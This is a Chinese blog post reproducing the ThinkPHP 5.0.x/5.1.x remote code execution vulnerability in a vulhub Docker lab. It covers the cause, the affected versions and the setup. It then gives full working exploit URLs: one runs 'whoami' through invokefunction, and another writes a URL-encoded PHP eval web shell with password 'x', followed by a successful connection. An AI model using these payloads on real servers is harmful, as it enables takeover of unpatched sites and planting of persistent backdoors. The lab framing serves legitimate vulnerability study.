 ```yaml
---
title: 【Thinkphp漏洞复现】5.0.22-5.1.29远程代码执行漏洞
date: 2025-09-03
categories:
  - Web攻防
  - 靶场
  - 红队
image: images/30.webp
---
```

# 0x00 简介
ThinkPHP(FCS)是一个轻量级的中型框架， 是从Java的Struts结构移植过来的中文PHP开发框架。 它使用面向对象的开发结构和MVC模式， 并且模拟实现了Struts的标签库， 各方面都比较人性化，熟悉J2EE的开发人员相对比较容易上手，适合php框架初学者。ThinkPHP的宗旨是简化开发、 提高效率、 易于扩展， 其在对数据库的支持方面已经包括MySQL、 MSSQL、Sqlite、 PgSQL、Oracle， 以及PDO的支持。 ThinkPHP有着丰富的文档和示例， 框架的兼容性较强， 但是其功能有限，因此更适合用于中小项目的开发。
# 0x01 漏洞概述
ThinkPHP 5.0.x版本和5.1.x版本中存在远程代码执行漏洞， 该漏洞源于ThinkPHP在获取控制器名时未对用户提交的参数进行严格的过滤。 远程攻击者可通过输入‘＼ ’字符的方式调用任意方法利用该漏洞执行代码。
# 0x02 影响版本
thinkphp 5.0.x
thinkphp 5.1.x
# 0x03 环境搭建
## 1、 在docker容器里搭建环境
```
cd vulhub-master/thinkphp/5-rce/
```
## 2、 进入目录下， 启动环境
```
docker-compose up -d
```
## 3、 查看环境端口
```
docker ps -a
```
这里我使用的是我自己的Ubuntu系统搭建的。
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250903125256.png)
直接访问以下链接即可。
```
http://192.168.197.140:8080/
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250903125352.png)
# 0x04 验证方式
GET方式尝试命令执行，具体请求如下：
```
http://192.168.197.140:8080/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250903125633.png)
# 0x05 利用方式
## 1、URL编码一句话木马内容：
```
echo%20%27%3C%3Fphp%20%40eval%28%24_POST%5B%22x%22%5D%29%3F%3E%27%20%3Eshell.php%20
```
## 2. 直接访问连接：
```
http://192.168.197.140:8080/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20%27%3C%3Fphp%20%40eval%28%24_POST%5B%22x%22%5D%29%3F%3E%27%20%3Eshell.php%20
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250903125935.png)
## 3. 上传一句话木马:
```
webshell地址：http://192.168.197.140:8080/shell.php
password：x
```
## 4. 连接成功！！！
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250903130030.png)
